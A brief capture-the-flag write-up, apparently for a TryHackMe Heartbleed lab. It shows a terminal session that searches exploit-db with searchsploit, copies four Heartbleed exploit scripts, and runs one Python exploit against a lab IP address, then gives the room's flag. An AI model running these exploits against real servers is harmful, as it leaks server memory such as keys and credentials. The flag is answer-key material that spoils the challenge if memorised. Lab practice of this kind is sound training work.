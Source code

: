 ```
kali@kali:~/CTFs/tryhackme/HeartBleed$ searchsploit heartbleed
------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                         |  Path
------------------------------------------------------------------------------------------------------- ---------------------------------
OpenSSL 1.0.1f TLS Heartbeat Extension - 'Heartbleed' Memory Disclosure (Multiple SSL/TLS Versions)    | multiple/remote/32764.py
OpenSSL TLS Heartbeat Extension - 'Heartbleed' Information Leak (1)                                    | multiple/remote/32791.c
OpenSSL TLS Heartbeat Extension - 'Heartbleed' Information Leak (2) (DTLS Support)                     | multiple/remote/32998.c
OpenSSL TLS Heartbeat Extension - 'Heartbleed' Memory Disclosure                                       | multiple/remote/32745.py
------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results
kali@kali:~/CTFs/tryhackme/HeartBleed$ searchsploit -m 32764 32791 32998 32745
  Exploit: OpenSSL 1.0.1f TLS Heartbeat Extension - 'Heartbleed' Memory Disclosure (Multiple SSL/TLS Versions)
      URL: https://www.exploit-db.com/exploits/32764
     Path: /usr/share/exploitdb/exploits/multiple/remote/32764.py
File Type: Python script, ASCII text executable, with CRLF line terminators

Copied to: /home/kali/CTFs/tryhackme/HeartBleed/32764.py


  Exploit: OpenSSL TLS Heartbeat Extension - 'Heartbleed' Information Leak (1)
      URL: https://www.exploit-db.com/exploits/32791
     Path: /usr/share/exploitdb/exploits/multiple/remote/32791.c
File Type: C source, ASCII text, with CRLF line terminators

Copied to: /home/kali/CTFs/tryhackme/HeartBleed/32791.c


  Exploit: OpenSSL TLS Heartbeat Extension - 'Heartbleed' Information Leak (2) (DTLS Support)
      URL: https://www.exploit-db.com/exploits/32998
     Path: /usr/share/exploitdb/exploits/multiple/remote/32998.c
File Type: ASCII text, with CRLF line terminators

Copied to: /home/kali/CTFs/tryhackme/HeartBleed/32998.c


  Exploit: OpenSSL TLS Heartbeat Extension - 'Heartbleed' Memory Disclosure
      URL: https://www.exploit-db.com/exploits/32745
     Path: /usr/share/exploitdb/exploits/multiple/remote/32745.py
File Type: Python script, ASCII text executable, with CRLF line terminators

Copied to: /home/kali/CTFs/tryhackme/HeartBleed/32745.py


kali@kali:~/CTFs/tryhackme/HeartBleed$ python 32745.py 34.240.13.68 > 32745result.txt
```

1. What is the flag?

`THM{sSl-Is-BaD}`
